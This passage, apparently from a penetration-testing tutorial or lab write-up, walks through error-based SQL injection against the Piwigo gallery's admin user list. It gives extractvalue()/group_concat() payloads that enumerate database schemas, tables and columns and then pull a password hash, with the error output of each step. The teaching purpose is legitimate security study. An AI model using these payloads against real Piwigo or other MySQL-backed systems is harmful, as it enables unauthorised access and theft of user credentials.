<h1>Piwigo encountered an irrecoverable error</h1>
<pre style='font-size:larger;background:white;color:red;padding:1em;margin:0;clear:both;display:block;width:auto;height:auto;overflow:auto'>
<b>[Hacking attempt] the input parameter "start" is not valid
</b>
#1	check_input_parameter /piwigo/piwigo/admin/user_list_backend.php(16)
</pre>
```


_Verbose erro rmessage from Piwigo_


```markup
<pre><br />
<b>Warning</b>:  [mysql error 1064] You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''
		LIMIT 0, 10' at line 4

		SELECT SQL_CALC_FOUND_ROWS id, username, status, mail_address, recent_period, level, registration_date
		FROM   piwigo_users INNER JOIN piwigo_user_infos AS ui ON id = ui.user_id
		
		ORDER BY  id asc'
		LIMIT 0, 10
   in <b>/piwigo/piwigo/include/dblayer/functions_mysqli.inc.php</b> on line <b>864</b><br />
</pre><br />
<b>Fatal error</b>:  Uncaught Error: Call to a member function fetch_array() on bool in /piwigo/piwigo/include/dblayer/functions_mysqli.inc.php:223
Stack trace:
#0 /piwigo/piwigo/admin/user_list_backend.php(204): pwg_db_fetch_array(false)
#1 {main}
  thrown in <b>/piwigo/piwigo/include/dblayer/functions_mysqli.inc.php</b> on line <b>223</b><br />
```


<figure><figcaption><p>Updated payload and response in Burp Suite Repeater</p></figcaption></figure>

### Exploiting Error-based SQL Injection


The _group\_concat()_ function is unique to MySQL. Current versions of Microsoft SQL Server and PostgreSQL have a very similar _STRING\_AGG()_ function. Additionally, current versions of Oracle DB have a _LISTAGG()_ function that is similar to the _STRING\_AGG()_ functions.


_Using ExtractValue() with group\_concat()_


```sql
01  asc, extractvalue('',concat('>',(
02    select group_concat(table_schema) 
03    from (
04      select table_schema 
05      from information_schema.tables 
06      group by table_schema) 
07    as foo)
08    )
09  )
```


<figure><figcaption><p>Updating our payload in Repeater</p></figcaption></figure>

_Error message containing the database schemas_


```markup
:  [mysql error 1105] XPATH syntax error: '>information_schema,piwigo'

		SELECT SQL_CALC_FOUND_ROWS id, username, status, mail_address, recent_period, level, registration_date
		FROM   piwigo_users INNER JOIN piwigo_user_infos AS ui ON id = ui.user_id
		
		ORDER BY  id asc, extractvalue('',concat('>',(select group_concat(table_schema) from (select table_schema from information_schema.tables group by table_schema) as foo)))
		LIMIT 0, 10
   in <b>/piwigo/piwigo/include/dblayer/functions_mysqli.inc.php</b>
```


_Updated payload to extract_

```sql
asc, extractvalue('',concat('>',(
  select group_concat(table_name) 
  from (
    select table_name from information_schema.tables
    where table_schema='piwigo') 
  as foo)
  )
)
```

_Error message with table names_


```sql
:  [mysql error 1105] XPATH syntax error: '>piwigo_activity,piwigo_caddie,p'

		SELECT SQL_CALC_FOUND_ROWS id, username, status, mail_address, recent_period, level, registration_date
		FROM   piwigo_users INNER JOIN piwigo_user_infos AS ui ON id = ui.user_id
		
		ORDER BY  id asc, extractvalue('',concat('>',(select group_concat(table_name) from (select table_name from information_schema.tables where table_schema='piwigo') as foo)))
		LIMIT 0, 10
```


_Updated payload with LIMIT and OFFSET values_

```sql
asc, extractvalue('',concat('>',(
	select group_concat(table_name) 
	from (
		select table_name 
		from information_schema.tables 
		where table_schema='piwigo' 
		limit 2 offset 2) 
	as foo)
	)
)
```

<figure><figcaption><p>Request and Response identifyin the piwigo_users table</p></figcaption></figure>

_Payload to extract column names for piwigo\_users table_

```sql
asc, extractvalue('',concat('>',(
	select group_concat(column_name) 
	from (
		select column_name 
		from information_schema.columns 
		where table_schema='piwigo' and table_name='piwigo_users') 
	as foo)
	)
)
```

_Error message identifying the columns of the piwigo\_users table_


```sql
:  [mysql error 1105] XPATH syntax error: '>id,mail_address,password,userna'

		SELECT SQL_CALC_FOUND_ROWS id, username, status, mail_address, recent_period, level, registration_date
		FROM   piwigo_users INNER JOIN piwigo_user_infos AS ui ON id = ui.user_id
		
		ORDER BY  id asc, extractvalue('',concat('>',(select group_concat(column_name) from (select column_name from information_schema.columns where table_schema='piwigo' and table_name='piwigo_users') as foo)))
		LIMIT 0, 10
```



Microsoft SQL Server has a nearly identical _SUBSTRING()_ function and Oracle DB has a _SUBSTR()_ function that takes the same parameters. PostgreSQL has two different functions for substrings. The MySQL _SUBSTRING()_ function follows the same parameter format as the _SUBSTR()_ function. The _SUBSTRING()_ function must include a _from_ or _for_ keyword in the function call.


_Payload to extract password values_


```sql
asc, extractvalue('',concat('>',(select substring(password,1,32) from piwigo_users limit 1 offset 0)))
```


<figure><figcaption><p>Repeater updated with new payload</p></figcaption></figure>

_Extracting a partial password hash_


```sql
:  [mysql error 1105] XPATH syntax error: '>$P$Ghxmchgk.0YxEQutC7os3dZfBvqG'

		SELECT SQL_CALC_FOUND_ROWS id, username, status, mail_address, recent_period, level, registration_date
		FROM   piwigo_users INNER JOIN piwigo_user_infos AS ui ON id = ui.user_id
		
		ORDER BY  id asc, extractvalue('',concat('>',(select substring(password,1,32) from piwigo_users limit 1 offset 0)))
		LIMIT 0, 10
```

